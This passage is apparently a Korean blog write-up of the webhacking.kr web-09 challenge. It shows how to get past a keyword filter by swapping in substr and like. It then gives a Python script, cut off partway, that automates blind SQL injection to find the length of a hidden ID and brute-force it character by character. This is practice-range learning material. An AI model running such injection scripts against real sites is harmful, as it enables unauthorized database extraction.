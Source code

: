 예상되는 글자에 대한 사전 텍스트를 만들어 놓고 한 글자씩 대입하면 될 것이다.

한 글자씩 확인해야 하기에 `substring`을 사용하려고 했는데 필터링되어 있다. 방법이 없을까 해서 찾아봤는데 `substr`라는 함수가 별도로 존재한 것을 알게 되었다.

DB에서 문자열 추출 시, Oracle에서는 `SUBSTR`를 사용하고 MySQL에서는 `SUBSTR`와 `SUBSTRING` 모두 사용하다고 합니다!

출처: [코딩하는 금융인:티스토리](https://codingspooning.tistory.com/entry/MySQL-문자열-자르기-SUBSTR-SUBSTRING)

그래서 글자를 확인하는 것을 `substr`로 사용하고, `=` 은 `like`를 사용하여 대체하겠습니다.

```sql
if(substr(id,1,1)like('a'),3,99)
```

* **substr(id, 1, 1)** : **id**에서 시작지점 **1** 부터(두번째 인자) **1** 한 글자(세번째 인자)만큼 가져온다. 
   * substr('abcd', 1, 2) : **ab**

* **substr**로 가져온 하나의 값이 `like('a')` **'a'**와 같은지 비교

* 같으면 **3** return, 다르면 **99** return

이것을 응용하여 위 ID의 길이와 하나로 합치면 아래와 같은 스크립트가 완성된다.

```python
import requests

headers = {
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="104", " Not A;Brand";v="99", "Google Chrome";v="104"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': 'Windows',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}
cookies = {
        'PHPSESSID' : '본인 PHPSESSID'
}

url = 'https://webhacking.kr/challenge/web-09/index.php?no='
i = 0
key = 'abcdefghijklmnopqrstuvwxyz01234567890`~!@#$%^&*()_+'

def findIDLength(i):
    while True:
        sqli = url + 'if(length(id)like(' + str(i) + '),3,99)'
        r = requests.get(sqli, headers = headers, cookies = cookies)
        if (r.text).find('Secret') != -1:
            print(f'ID LENGTH : {i}')
            return i
        i += 1


def findID(i, j):
    passwd = ''
    print("no'3 password : ", end = '', flush = True)
    while j <= i:
        for k in range(len(key)):
            key_hex = hex(ord(key[k])) # 사전 파일과 같이 key라는 값을 받아서 '0x41' 변환
            sqli = url + 'if(substr(id,' + str(j) + ',1)like(' + key_hex + '),3,99)'
```